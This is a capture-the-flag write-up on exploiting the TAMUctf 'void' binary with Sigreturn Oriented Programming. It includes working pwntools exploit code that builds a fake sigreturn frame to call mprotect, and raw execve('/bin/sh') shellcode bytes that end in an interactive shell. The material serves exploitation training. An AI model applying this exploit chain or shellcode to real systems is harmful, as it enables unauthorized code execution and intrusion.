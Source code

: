 ```yaml
---
title:  "Abusing Sigreturn oriented programming (SROP)"
layout: post
categories: ctf, binary exploits
---
```


In this article, i’ll explain and teach how to approach a pwn challenge when you can write many bytes to stack and no gadgets are available.
Void from tamuctf was a classic and refreshing SROP binary-exploitation challenge, had fun solving it!


![alt text](https://i.imgflip.com/6gzxi2.jpg)
## Approaching the challenge
### In this challenge, we got 2 binaries: `void, void.c`

```sh
void: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=7fd635b160836aff1b92af6f203e3b1f160f54cc, not stripped
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

### View the provided code

```c
void main() {
    // read(0, rsp, 2000)
    asm
    (
        "mov $0, %rax;"
        "mov $0, %rdi;"
        "mov %rsp, %rsi;"
        "mov $2000, %rdx;"
        "syscall;"
    );
}

int _start() {
  main();
    asm(
      "mov $60, %rax;" // exit
      "mov $0, %rdi;"
      "syscall;"
    );
}         
```
Looks like the binary is fairly small, and only includes few instructions and gadgets, it loads 0 into rax, 0 into rdi, rsp into rsi, and 2000 to rdx - 
```c
read(fd=0, buf=stack, count=2000);
```
We can write **2000 bytes** straight to stack, control rbp, rip, and previous frames.
But, what can we do? NX is enabled, we can't jump to shellcode on stack, we also cant do **ret2libc** because there are **no gadgets** or **leaks** that I can think of. 

That leads us to SROP, You can view a more detailed explanation about srop here: (Credit to Authors)

* [English Version](https://hackmd.io/@imth/SROP)

* [Hebrew Version](https://www.digitalwhisper.co.il/files/Zines/0x70/DW112-1-SROP.pdf)

### TLDR:

![alt text](https://sthbrx.github.io/images/rashmica/picture.png)

Cool! If we can **copy the pattern** of the **signal handler** (using sigreturn syscall) and build a fake sigframe, we can trick the kernel into loading the frame into the context (including registers) and get control of the code flow without using rop gadgets (except for syscall and read gadget)



> After we gain control over the context and registers, we can jump to the syscall gadget with our own arguments, for example calling execve with /bin/sh, or making a certain memory rwx and jumping to shellcode
{: .prompt-tip }

## Building the exploit
In this post, I will show the exploit using mprotect and jumping to shellcode, although you can exploit this challenge using other methods.
> Firstly, we have to divide our payload into 3 steps, we can't write 200+ frame bytes and jump to syscall because **read** overwrites rax with how many bytes were read.

We can start by overwriting the new **instruction pointer** and writing the **sigreturn frame**, we can jump back to the **read gadget** in main, and then write **0xf** bytes to set rax=0xf - sigreturn syscall id.


```py
syscall_ret = 0x401018
read = 0x401000
writable = 0x400000
new_ret = 0x400018 # Program Entrypoint

payload = p64(read)
payload += b"A" * 8 # padding

frame = SigreturnFrame()
frame.rax = 0xa
frame.rdi = writable
frame.rsi = 0x1000
frame.rdx = 0x7
frame.rsp = new_ret
frame.rip = syscall_ret

payload += bytes(frame)
p.send(payload)
```
We send the frame, overwrite rip with read gadget.

Now we have to change rax=0xf

```py
payload = p64(syscall_ret) + bytes(frame)[:7]
p.send(payload)
```
We send exactly 0xf of previous payload, to set rax value.

```py
# http://shell-storm.org/shellcode/files/shellcode-905.php
shellcode = b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf"
shellcode += b"\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54"
shellcode += b"\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"

payload = p64(new_ret+8)
payload += shellcode

p.send(payload)

p.interactive()
```

We change rsp to the rwx section, then we jump back to program entry and trigger the "bof" and write shellcode to the rwx section, and overwrite rip with it's address to jump to it.


## No gadgets, no problem.